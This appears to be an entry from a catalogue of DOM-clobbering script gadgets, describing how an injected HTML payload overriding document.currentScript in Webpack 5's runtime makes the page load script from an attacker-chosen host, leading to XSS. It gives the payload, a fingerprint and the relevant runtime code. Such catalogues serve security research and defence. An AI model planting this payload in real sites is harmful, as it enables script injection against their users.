## Webpack

### Meta

+ Library: Webpack
+ Version: 5.x.x
+ Fingerprint: `typeof __webpack_require__ !== 'undefined' && __webpack_require__.hasOwnProperty('p')`
+ Payload: ```<img name="currentScript" src="https://xxx.xxxx.xxx"></img>```
+ Impact: XSS
+ Foundby: TheHulk

### Library

URL: Self hosted

### Vulnerable Code Snippet

`webpack/runtime/publicPath`
```javascript
var scriptUrl;
if (__webpack_require__.g.importScripts) scriptUrl = __webpack_require__.g.location + "";
var document = __webpack_require__.g.document;
if (!scriptUrl && document) {
	if (document.currentScript)
		scriptUrl = document.currentScript.src;
	if (!scriptUrl) {
		var scripts = document.getElementsByTagName("script");
		if(scripts.length) {
			var i = scripts.length - 1;
			while (i > -1 && (!scriptUrl || !/^http(s?):/.test(scriptUrl))) scriptUrl = scripts[i--].src;
		}
	}
}
// When supporting browsers where an automatic publicPath is not supported you must specify an output.publicPath manually via configuration
// or pass an empty string ("") and set the __webpack_public_path__ variable from your code to use your own logic.
if (!scriptUrl) throw new Error("Automatic publicPath is not supported in this browser");
scriptUrl = scriptUrl.replace(/#.*$/, "").replace(/\?.*$/, "").replace(/\/[^\/]+$/, "/");
__webpack_require__.p = scriptUrl;
```

`webpack/runtime/jsonp chunk loading`
```javascript
function loadUpdateChunk(chunkId, updatedModulesList) {
	currentUpdatedModulesList = updatedModulesList;
	return new Promise((resolve, reject) => {
		waitingUpdateResolves[chunkId] = resolve;
		// start update chunk loading
		var url = __webpack_require__.p + __webpack_require__.hu(chunkId);
		// create error before stack unwound to get useful stacktrace later
		var error = new Error();
		var loadingEnded = (event) => {
			if(waitingUpdateResolves[chunkId]) {
				waitingUpdateResolves[chunkId] = undefined
				var errorType = event && (event.type === 'load' ? 'missing' : event.type);
				var realSrc = event && event.target && event.target.src;
				error.message = 'Loading hot update chunk ' + chunkId + ' failed.\n(' + errorType + ': ' + realSrc + ')';
				error.name = 'ChunkLoadError';
				error.type = errorType;
				error.request = realSrc;
				reject(error);
			}
		};
		__webpack_require__.l(url, loadingEnded);
	});
}
```

`webpack/runtime/load script`
```javascript
__webpack_require__.l = (url, done, key, chunkId) => {
	if(inProgress[url]) { inProgress[url].push(done); return; }
	var script, needAttach;
	if(key !== undefined) {
		var scripts = document.getElementsByTagName("script");
		for(var i = 0; i < scripts.length; i++) {
			var s = scripts[i];
			if(s.getAttribute("src") == url || s.getAttribute("data-webpack") == dataWebpackPrefix + key) { script = s; break; }
		}
	}
	if(!script) {
		needAttach = true;
		script = document.createElement('script');

		script.charset = 'utf-8';
		script.timeout = 120;
		if (__webpack_require__.nc) {
			script.setAttribute("nonce", __webpack_require__.nc);
		}
		script.setAttribute("data-webpack", dataWebpackPrefix + key);

		script.src = url;
	}
	inProgress[url] = [done];
	var onScriptComplete = (prev, event) => {
		// avoid mem leaks in IE.
		script.onerror = script.onload = null;
		clearTimeout(timeout);
		var doneFns = inProgress[url];
		delete inProgress[url];
		script.parentNode && script.parentNode.removeChild(script);
		doneFns && doneFns.forEach((fn) => (fn(event)));
		if(prev) return prev(event);
	}
	var timeout = setTimeout(onScriptComplete.bind(null, undefined, { type: 'timeout', target: script }), 120000);
	script.onerror = onScriptComplete.bind(null, script.onerror);
	script.onload = onScriptComplete.bind(null, script.onload);
	needAttach && document.head.appendChild(script);
};
```

## PoC

Webpack's generated code differes significantly for each use. Ensure that the code snippets appear, then browse the network requests to see the URLs that are requested. Some users may configure their public path differently. Fingerprint may not work if Webpack is configured to not produce source maps.
